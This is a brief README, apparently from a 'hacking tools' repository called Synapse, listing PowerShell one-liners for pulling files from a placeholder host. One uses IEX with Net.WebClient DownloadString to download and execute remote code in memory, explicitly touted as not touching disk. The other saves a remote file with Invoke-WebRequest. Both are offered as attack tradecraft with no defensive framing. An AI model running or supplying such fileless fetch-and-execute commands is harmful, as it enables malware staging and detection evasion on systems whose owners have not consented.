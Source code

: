 # Synapse
##Repo for hacking tools

# Get files
## IEX (Doesnt touch disk)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`